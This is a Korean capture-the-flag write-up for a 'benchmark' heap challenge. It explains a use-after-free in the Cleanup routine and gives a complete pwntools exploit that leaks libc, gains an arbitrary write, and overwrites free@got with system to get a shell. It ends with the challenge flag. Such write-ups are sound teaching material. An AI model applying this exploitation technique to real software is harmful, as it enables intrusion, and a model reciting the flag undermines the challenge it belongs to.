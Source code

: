 # 출제자

조정훈

# 풀이

Run / Re-run / Revise / Cleanup / Status 기능이 존재하는 menu challenge 이다.

```c
typedef struct _benchmark {
    thread t;
    int joined; 
    int rc;
    int parent;
    milliseconds elapsed;
    int arg_len;
    char *arg;
} benchmark;
```

Run : 유저에게 string을 입력받아 thread를 생성해 benchmark 진행, benchmark 객체는 전역변수 g_benchmark에서 관리된다.
Re-Run : 존재하는 Joined 상태의 benchmark를 parent로 선택해 새로운 benchmark를 생성한다. parent의 reference counter를 증가시키고 arg를 shallow copy한다.
Revise : arg를 arg_len 만큼 수정한다.
Cleanup : Joined 상태의 benchmark를 선택해 t를 join시키고 delete한다. parent 값이 유효할 경우 (Re-Run에 의해 생성되어) arg는 delete 하지 않는다.
Status : 각 benchmark의 status를 출력한다.

취약점은 Cleanup 함수에 존재한다. benchmark를 delete할 때 reference counter가 0인지 체크하지 않기에 child benchmark의 arg가 dangling pointer가 될 수 있다.

Exploit은 아래와 같다.

1. Benchmark 0 생성, Re-run으로 child benchmark 생성
2. Cleanup(0) -> Benchmark_1->arg는 dangling pointer가 된다.
3. Benchmark 2를 생성하며 0x30 크기의 arg 할당, 해당 arg는 Benchmark_0의 해제된 arg 위에 할당된다.
4. Status를 통해 Benchmark 2의 thread pointer를 읽어 libc leak
5. Revise를 통해 Benchmark 2의 arg를 조작해 AAW
6. libstdcpp의 free@got를 system으로 덮어 shell 획득

```python
from pwn import *

#p = process('./benchmark')
p = remote('localhost', 30030)

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', str(0x30).encode())
p.sendlineafter(b': ', b'abcd')

sleep(0.1)

p.sendlineafter(b'> ', b'3')
p.sendlineafter(b': ', b'0')

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b': ', b'0')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', str(0x30).encode())
p.sendlineafter(b': ', b'abcd')

sleep(0.1)

p.sendlineafter(b'> ', b'5')
p.recvuntil(b'arg: ')
p.recvuntil(b'arg: ')
leak = u64(p.recv(6)+b'\x00\x00') 
libc = leak + 0xeb9c0
libcpp = libc + 0x249000
print(hex(libc), hex(libcpp))

pay = p64(leak) + p64(1)
pay += p64(0xffffffff) + p64(0xa)
pay += p64(0x30) + p64(libcpp+0x226c38)
p.sendlineafter(b'> ', b'4')
p.sendlineafter(b': ', b'1')
p.sendafter(b': ', pay)

p.sendlineafter(b'> ', b'4')
p.sendlineafter(b': ', b'0')
p.sendafter(b': ', p64(libc+0x50d70))

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', str(0x30).encode())
p.sendlineafter(b': ', b'/bin/sh')

sleep(0.1)

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b': ', b'2')
p.recv()

p.interactive()
```

# 문제 세팅 방법

`docker-compose up -d`

# 출제 지문

Test your pc real quick :-)

# 플래그

`hspace{e604b31c05e0ed5ab9dac59a613eb309}`